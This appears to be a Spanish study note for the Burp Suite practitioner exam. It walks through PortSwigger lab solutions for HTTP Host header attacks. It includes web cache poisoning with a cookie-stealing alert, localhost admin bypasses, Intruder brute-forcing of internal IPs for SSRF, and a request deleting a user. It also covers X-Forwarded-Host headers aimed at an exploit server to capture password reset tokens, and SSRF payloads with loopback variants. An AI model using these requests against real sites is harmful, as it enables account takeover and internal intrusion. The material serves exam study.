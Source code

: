 <hr>
## Qué es la cabecera HTTP Host?

La cabecera HTTP Host es una cabecera de solicitud obligatoria a partir de HTTP/1.1. Especifica el nombre de dominio a la que el cliente quiere acceder. Por ejemplo, cuando un usuario visita `https://portswigger.net/web-security`, su navegador compondrá una solicitud que contiene una cabecera de Host de la siguiente manera:

```
GET /web-security HTTP/1.1
Host: portswigger.net
```

En algunos casos, como cuando la solicitud ha sido remitida por un sistema de intermediarios, el valor de los hostels puede modificarse antes de que llegue al componente de back-end previsto. A continuación se discutirá este escenario con más detalle.

## Qué es un ataque de cabecera HTTP Host?

Los ataques de encabezados HTTP Host explotan sitios web vulnerables que manejan el valor de la cabecera de Host de una manera insegura. Si el servidor confía implícitamente en la cabecera de Host, y no lo valida o escapa adecuadamente, un atacante puede ser capaz de utilizar este intromisivo para inyectar cargas útiles dañinas que manipulan el comportamiento del lado del servidor. Los ataques que implican inyectar una carga útil directamente en la cabecera de Host a menudo se conocen como ataques de "inyección de cabecera de hosta".

Cualquiera de estos headers a añadir. 
- `X-Host`
- `X-Forwarded-Server`
- `X-HTTP-Host-Override`
- `Forwarded`

<hr> 

## IMPORTANTE: 

**Cuando encuentre en un lab o en el BSCP una APP que no devuelve /admin, no tiene scripts curiosos que podamos explotar, no tiene una funcionalidad que podamos analizar para explotar, el brute force attack del LOGIN por el rate limit tampoco funciona, tampoco podemos ingresar como wiener y tras de eso el FFUF no encuentra enpoints ocultos, el ataque va directamente en modificiar algo de la request principal de la app, su host header, un nuevo param body, un web cache (si devuelve reglas de caché, etc)**
### LAB: Host Header Web Cache Poisoning Vía Ambiguous Request `alert`

```js
//Modificar el HOST, añadiendo un cache buster de test. 
GET /?cb=jsjsj HTTP/1.1
Host: web-security-academy.net
Host: Exploit-Server.net

//En exploit server -> store & deliver exploit to victim
alert(document.cookie)

//Actualizar el request al home. 
```

### LAB: Host Header Auth Bypass `admin`

```js
//admin interface is only accesible via Local

GET /admin HTTP/1.1
Host: localhost
```

### LAB:  Host Header Routing-Based SSRF `192.168.0.0/24` `admin` `Host` out of band resource load

* Algo **muy importante** en este ataque es que el Header **Host** en la opción de intruder toca darle > Desactivar Host Header Automatico, sino vale chimba ahi siempre va a remplazar el host header por el legitimo. 

![Burp-scanner](Pasted%20image%2020250220214811.png)

Si el lab no tiene login, no tiene post comments, retorna 404 el /admin y además tampoco podemos ingresar como un user, el ataque es directamente por aqui. 

Hay algo que toca definir antes de partir a resolver el laboratorio, nos brindan una ip con su notación CIDR, sin embargo en la mayoría de casos un atacante pensaría que debería atacar a los dos últimos octetos de bits de la IP lo cual es errado, en este caso vemos un octeto de notación `/24` lo cual significa que:

```jsx
192.168.0.0/24 -> 8+8+8=24 los 3 primeros octetos están estaticos
192.168.0 (ocupados) .0 (disponible para ataque brute force)
```

- La interfaz `/admin` de por sí no existe, cuando la pongo en request retorna not found, entonces el ataque lo dirigiré por intruder con param posición en el último octeto y el endpoint en `/admin` hasta que una response me retorno 200, con los posibles numeros del 0-255 iniciando en el 1, 255 porque claro es la cantidad octeto de bits posibles de cada octeto.

![[Pasted image 20250220080835.png]]

* Desactivar el Host Header automatico & ignore.  !!!!!!!!!!!!!!!!!
* Payloads Numbers [0-255] - `GET /admin HTTP/1.1`

```js
SSRF to access admin panel somewhere in 192.168.1.0/24
-> confirm you can change host to your collaborator
-> deselect in intruder update host header to match target
-> Host: 192.168.0.§1§
```

### LAB:  SSRF via flawed request parsing `192.168.0.0/24` `admin` `Host vulnerable`

* Y el campo check: Update Host header to match target lo desactivo efectivamente.

```js
GET https://vulnerable-website.com/admin HTTP/1.1
Host: 192.168.0.§1§ //intruder attack
Connection: Close
Content-Length: ... etc

//luego vemos que para eliminar un user es con el method POST y ahí en la misma response nos da un token CSRF para tal acción: 
---->
POST https://Vulnerable-website.com/admin/delete?username=carlos&csrf=ValueCSRF HTTP/2
Host: 192.168.0.125 //pero 125 claramente puede cambiar en otro ataque.
//si dejamos tanto username como csrf desde la misma URL, si con POST no se solved cambiamos el request method a GET que asi si lo lee los params desde la URL.

username=carlos //el username que queremos eliminar, aunque para terminos del BSCP nos basta con interpretar admin con el GET / HTTP/2 y teniendo el Host con la IP correcta. 
```

### LAB: Host validation bypass via connection state attack `Paralell Single Connection` `admin panel`

* Un ataque en repeater de tipo `Paralell Single Connection` 2 Request, una legitima la otra modificada intencionalmente. 
* (in the exam it would be probably `localhost:6566`)

```js
// REQUEST 1 -> Legitima
GET / HTTP/1.1
Host: ID-LAB.com
Connection: keep-alive

// REQUEST 2 -> Maliciosa
GET /admin HTTP/1.1
Host: 192.168.0.1
```

### Spoof IP Address Host Header

> _**Identify**_ that altered HOST headers are supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection or redirection attacks to do password reset poisoning.

> Include the below `X-` headers and change the username parameter on the password reset request to `Carlos` before sending the request.  
> In the BSCP exam if you used this exploit then it means you have not used a vulnerability that require user interaction and allow you to use an interaction vulnerability to gain access to stage 3 as admin by using exploit server `Deliver exploit to victim` function.

```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```

> Check the exploit server log to obtain the reset link to the victim username.

[![Exploit Server Logs capture the forgot password reset token](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/HOST-Header-forgot-password-reset.PNG)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/HOST-Header-forgot-password-reset.PNG)

> SSRF Sample payloads.

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```

> Alternative IP representation of `127.0.0.1`:

1. 2130706433
2. 017700000001
3. 127.1

